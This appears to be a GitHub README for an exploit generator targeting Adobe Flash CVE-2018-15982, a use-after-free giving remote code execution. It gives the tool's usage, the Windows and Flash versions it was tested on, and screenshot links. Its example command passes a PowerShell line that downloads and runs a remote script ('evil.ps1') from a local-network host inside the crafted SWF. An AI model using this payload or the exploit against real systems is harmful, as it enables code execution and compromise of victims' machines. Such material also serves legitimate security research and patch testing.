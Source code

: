 # Adobe Flash CVE-2018-15982

This script creates a swf payload for CVE-2018-15982, which is based off of the PoC from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982



Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.56.101/evil.ps1')" downloadtest.swf```
  


Tested on: 
* Windows 10 Enterprise 10.0.17134, Internet Explorer 11.285.17134.0
* Adobe Flash Player 31.0.0.153, 29.0.0.140


## Example


Create payload:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create.png)


Executing payload:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec31.png)

Confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/confirm31.png)

## Metasploit Module

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/metasploit-module.png)

